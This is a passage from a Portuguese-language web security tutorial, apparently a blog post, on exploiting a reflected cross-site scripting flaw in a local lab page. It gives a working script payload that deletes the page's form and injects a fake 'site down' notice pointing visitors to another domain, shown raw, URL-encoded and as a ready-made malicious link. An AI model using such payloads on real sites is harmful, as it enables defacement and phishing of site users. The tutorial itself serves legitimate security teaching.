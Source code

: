 O método `removeChild()` requer um argumento: o nó que você deseja remover. Ele deve ser um nó filho do objeto do qual você está chamando o método.

#### Exploração

Unindo o que já foi explorado anteriormente com as propriedades de nó, podemos criar um novo elemento que contenha nossa mensagem já importanto a classe que o formate adequadamente, inseri-la dentro do HTML e em seguida, excluir o elemento formulário.

```html
<script>
	var input = document.createElement("h2");
	input.setAttribute("class", "h41stur");
	input.innerHTML = "Site fora do ar! Por favor vá para https://h41stur.com";
	document.forms[0].parentNode.appendChild(input);
	document.forms[0].parentNode.removeChild(document.forms[0]);	
</script>
```

Convertendo para *URL Encode*:

```
%3Cscript%3E%0A%09var%20input%20%3D%20document.createElement%28%22h2%22%29%3B%0A%09input.setAttribute%28%22class%22%2C%20%22h41stur%22%29%3B%0A%09input.innerHTML%20%3D%20%22Site%20fora%20do%20ar%21%20Por%20favor%20v%C3%A1%20para%20https%3A%2F%2Fh41stur.com%22%3B%0A%09document.forms%5B0%5D.parentNode.appendChild%28input%29%3B%0A%09document.forms%5B0%5D.parentNode.removeChild%28document.forms%5B0%5D%29%3B%09%0A%3C%2Fscript%3E
```

Gerando a seguinte URL:

- [http://localhost/06/?search=%3Cscript%3E%0A%09var%20input%20%3D%20document.createElement%28%22h2%22%29%3B%0A%09input.setAttribute%28%22class%22%2C%20%22h41stur%22%29%3B%0A%09input.innerHTML%20%3D%20%22Site%20fora%20do%20ar%21%20Por%20favor%20v%C3%A1%20para%20https%3A%2F%2Fh41stur.com%22%3B%0A%09document.forms%5B0%5D.parentNode.appendChild%28input%29%3B%0A%09document.forms%5B0%5D.parentNode.removeChild%28document.forms%5B0%5D%29%3B%09%0A%3C%2Fscript%3E](http://localhost/06/?search=%3Cscript%3E%0A%09var%20input%20%3D%20document.createElement%28%22h2%22%29%3B%0A%09input.setAttribute%28%22class%22%2C%20%22h41stur%22%29%3B%0A%09input.innerHTML%20%3D%20%22Site%20fora%20do%20ar%21%20Por%20favor%20v%C3%A1%20para%20https%3A%2F%2Fh41stur.com%22%3B%0A%09document.forms%5B0%5D.parentNode.appendChild%28input%29%3B%0A%09document.forms%5B0%5D.parentNode.removeChild%28document.forms%5B0%5D%29%3B%09%0A%3C%2Fscript%3E)

![Resultado](/img/posts/2023-06-21-beyond-the-alert-17.png)
